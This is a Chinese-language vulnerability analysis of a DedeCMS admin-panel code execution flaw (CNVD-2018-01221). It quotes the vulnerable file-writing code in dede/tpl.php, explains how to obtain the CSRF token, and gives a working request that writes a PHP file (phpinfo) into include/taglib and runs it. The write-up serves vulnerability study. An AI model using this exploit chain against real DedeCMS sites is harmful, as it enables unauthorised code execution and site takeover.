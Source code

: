 # dedecms 后台代码执行 CNVD-2018-01221

**漏洞成因**

> 在写入标签功能处，写入文件内容可控，且文件名后缀默认定义为php，导致任意命令执行。
>
> 但个人认为此漏洞成因与开发业务相关，无意间产生了此漏洞。。。

# 漏洞代码

**路径** **dede/tpl.php**

关键代码

```
$action = isset($action) ? trim($action) : '';
else if($action=='savetagfile')
{
    if ( empty(${$_csrf['name']}) OR $_csrf['hash'] !== ${$_csrf['name']})
    {
        exit('Error:no csrf hash code!');
    }
    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
    {
        ShowMsg('文件名不合法，不允许进行操作！', '-1');
        exit();
    }
    require_once(DEDEINC.'/oxwindow.class.php');
    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
    $content = stripslashes($content);
    $truefile = DEDEINC.'/taglib/'.$filename;
    $fp = fopen($truefile, 'w');
    fwrite($fp, $content);
    fclose($fp);
****
    exit();
}
```

**分析**

> $content $filename 可控，导致可以写入命令进行Getshell
>
> 所以思路来了
>
> 1. 首先要获取_csrf['name']的值(参考其他老哥的教程是token，可能我的版本有点差异)从而通过判断语句进入下一阶段
> 2. 写入命令语句

**获取_csrf['name']**

> 全局搜索_csrf['name']，发现在**dede/templets/tpl_edit.htm** 中输出。
>
> ```
> <input type="hidden" name="action" value="saveedit" />
> <input type="hidden" name="acdir" value="<?php echo $acdir; ?>" />
> <input type="hidden" name="<?php echo $_csrf['name'];?>" value="<?php echo $_csrf['hash'];?>" />
> ```
>
> 查看哪里引入了**dede/templets/tpl_edit.htm**
>
> 发现仍然在**dede/tpl.php** 中通过  include DEDEADMIN.'/templets/tpl_edit.htm 传入
>
> ```
> if($action == 'edit' || $action == 'newfile')
> {
>     if($filename == '' && $action == 'edit')
>     {
>         ShowMsg('未指定要编辑的文件', '-1');
>         exit();
>     }
>     if(!file_exists($templetdird.'/'.$filename)  && $action == 'edit')
>     {
>         $action = 'newfile';
>     }
>     /*
>     */
> 
>     include DEDEADMIN.'/templets/tpl_edit.htm';
>     exit();
> }
> ```
>
> 那么可以通过访问tpl.php?action=newfile 进行获取_csrf['name']的值

## 漏洞利用

获取 _csrf['name']的值

```
url/tpl.php?action=newfile
```

![](获取Token.png)

写入命令

![](写入命令.png)

```
url/dede/tpl.php?action=savetagfile&_dede_csrf_name_bf1c4445=dc3740231717c87888a8e3648e75061a&filename=aaa.lib.php&content=<?php phpinfo() ?>
```

访问文件，发现已经被执行

```
url/include/taglib/aaa.lib.php
```

![](利用成功.png)

## 总结

利用和原理比较简单，但是如何能发现到此漏洞可能需要研究一下，或者非常了解业务。

另外还有dedecms 全局变量注册问题需要研究一下（这个和我看的其他作者的讲解不一样），这边没有定义就直接传参了，然后**register_globals**  也是off的状态。

![](问题.png)